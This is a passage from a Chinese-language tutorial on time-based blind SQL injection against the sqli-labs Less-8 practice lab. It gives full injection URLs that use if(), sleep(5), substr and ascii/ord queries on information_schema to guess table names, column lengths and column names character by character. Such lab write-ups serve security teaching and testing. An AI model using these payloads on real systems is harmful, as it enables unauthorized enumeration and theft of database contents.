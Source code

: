 #### 3.4.4.7.**猜测数据库表名**

猜测第一张表的第一个字，需要猜测其他表中其他字，可以修改limit进行控制。

当然database()也可以替换为'security'。

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101,sleep(5),1)--+

![img](assets/vHs2zTFlIy6q3D4.jpg) 

#### 3.4.4.8.**猜测数据库列的数量**

Users中存在3列。

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(length((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1))=2,sleep(5),1)--+

![img](assets/t41bN6SyvYpEHL2.jpg) 

#### 3.4.4.9.**猜测数据库列名**

猜测users表中第二列第一个字母这里需要注意的是上面获取到的是从0开始等于2，本质上是3个表，但是ID列我们用不到，从第二个开始。剩下的就需要自己调整参数进行一个一个测试。

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(ord(substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 1,1),1,1))=117,sleep(5),1)--+
